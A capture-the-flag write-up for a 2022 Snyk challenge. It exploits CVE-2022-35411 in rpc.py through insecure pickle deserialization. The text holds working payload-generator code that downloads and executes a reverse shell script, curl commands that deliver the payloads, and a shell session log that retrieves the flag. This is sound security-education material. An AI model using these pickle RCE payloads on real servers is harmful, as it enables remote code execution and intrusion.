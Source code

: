 # 2022 Snyk - Organic sauerkraut

The challenge had openapi-docs behind URL:
```sh
$ curl -sS "http://organic-sauerkraut.c.ctf-snyk.io/get-openapi-docs" | jq '.paths | keys[]'
"/saybye"
"/sayhi"
$ curl -sS "http://organic-sauerkraut.c.ctf-snyk.io/get-openapi-docs" | jq '.paths."/sayhi".post.parameters'
[
  {
    "name": "content-type",
    "in": "header",
    "description": "At least one of serializer and content-type must be used so that the server can know which serializer is used to parse the data.",
    "required": true,
    "schema": {
      "type": "string",
      "enum": [
        "application/json",
        "application/x-pickle",
        "application/x-msgpack",
        "application/x-cbor"
      ]
    }
  },
  {
    "name": "serializer",
    "in": "header",
    "description": "At least one of serializer and content-type must be used so that the server can know which serializer is used to parse the data.",
    "required": true,
    "schema": {
      "type": "string",
      "enum": [
        "json",
        "pickle",
        "msgpack",
        "cbor"
      ]
    }
  }
]
```

and a requirements.txt file:
```
rpc.py==0.6.0
uvicorn==0.18.2
pydantic==1.9.1
```

Just by observing dependencies, rpc.py looks most promising since it contains an RCE vulnerability CVE-2022-35411, more details on https://security.snyk.io/vuln/SNYK-PYTHON-RPCPY-2946719.

For the majority of the CTF, this challenge was bricked or it just did not work. There is an exploit available and for any payload sent we got 500 Internal Server Error with no ability to get a callback.

At the end of the CTF we have managed to provoke a callback towards our service by using plain python `urllib`. The winning combination that worked for us was:
- downloading a reverse shell python script from our server via `urllib`:
```sh
$ cat sauerkraut-pickle.py
def generate_payload(cmd):
    class PickleRce(object):
        def __reduce__(self):
            import urllib
            return urllib.request.urlretrieve, (cmd, "/tmp/a.py")
    payload = pickle.dumps(PickleRce())
    return payload

with open("/tmp/payload", "wb") as fp:
    fp.write(generate_payload("http://127.0.0.1:8000/a.py"))
$ python3 sauerkraut-pickle.py
$ curl -X POST "http://organic-sauerkraut.c.ctf-snyk.io/sayhi" -H "Content-Type: application/json" -H  "serializer: pickle" --data-binary @"/tmp/payload" -vv
```

- running the reverse shell python script on the server via `os.system`:
```sh
$ cat sauerkraut-pickle.py
def generate_payload(cmd):
    class PickleRce(object):
        def __reduce__(self):
            import os
            return os.system, (cmd,)
    payload = pickle.dumps(PickleRce())
    return payload

with open("/tmp/payload", "wb") as fp:
    fp.write(generate_payload("python3 /tmp/a.py"))
$ python3 sauerkraut-pickle.py
$ curl -X POST "http://organic-sauerkraut.c.ctf-snyk.io/sayhi" -H "Content-Type: application/json" -H  "serializer: pickle" --data-binary @"/tmp/payload" -vv
```

After obtaining shell, we got the flag:
```sh
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 35.237.......
Ncat: Connection from 35.237......:2240.
$ ls
ls
requirements.txt  server.py
$ ls /
ls /
app  boot  etc   home  lib64  mnt  proc  run   srv  tmp  var
bin  dev   flag  lib   media  opt  root  sbin  sys  usr
$ cat /flag
cat /flag
SNYK{60dc6362adec85eeb1f2615dff19cf432a7b897d286cf19b94ea4ee36b8ea9d8}
```
